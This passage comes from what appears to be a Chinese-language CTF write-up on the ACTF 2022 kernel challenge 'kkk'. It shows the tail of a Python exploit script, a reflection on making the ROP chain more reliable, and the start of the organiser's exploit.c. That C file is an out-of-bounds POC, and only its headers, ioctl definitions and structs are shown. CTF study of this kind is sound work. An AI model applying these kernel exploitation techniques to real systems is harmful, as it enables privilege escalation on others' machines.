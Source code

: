 ```python
# 0x7ffdbdb52b80
# return at 0x7ffdbdb533c8


io.interactive()
```

## Conclusion

至此，这题就算是做完了。最终的脚本成功概率不是特别高，但如果用户态 ROP 时加几个 ret slide 的话概率能显著提高（可能是错觉...）。一开始脸比较黑总是打不通，还以为 host 和 guest 偏移不一样...但这是静态编译啊，当时就觉得很迷。不过最后能确认的一点就是：host 与 guest 偏移没区别。虽然 Nu1L 那边的师傅也觉得痛苦，但我想我的痛苦完全源于自己太弱。。（脸黑也是弱的一个表现 :/

![](https://s2.loli.net/2022/07/17/T6C3GoAZ1itfaHe.png)


最后再贴一下出题人大哥忘记传上[官方题解](https://github.com/team-s2/ACTF-2022/tree/main/pwn/kkk/exploits)的 exploit.c

```c
// this POC demonstrates the oob ability

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <errno.h>
#include <unistd.h>
#include <time.h>

/* ioctl commands */
#define KKK_IOCTL_ADD _IO('k', 100)
#define KKK_IOCTL_UPDATE _IO('k', 103)
#define KKK_IOCTL_DUMP _IO('k', 105)
#define KKK_IOCTL_LAUNCH _IO('k', 107)
#define KKK_IOCTL_DETACH _IO('k', 109)

#define MAX_OBJECT_NUM (16)

enum kkk_type
{
    KKK_CRYPTO_DES,
    KKK_CRYPTO_3DES,
    KKK_CRYPTO_AES128,
    KKK_CRYPTO_AES256,
    KKK_CRYPTO_NUM
};

/* core data strcutres */
struct kkk_pack
{
    unsigned int size;
    void *ptr; // user space pointer
};

struct kkk_obj
{
    struct kkk_pack keypack;
    struct kkk_pack datapack;
```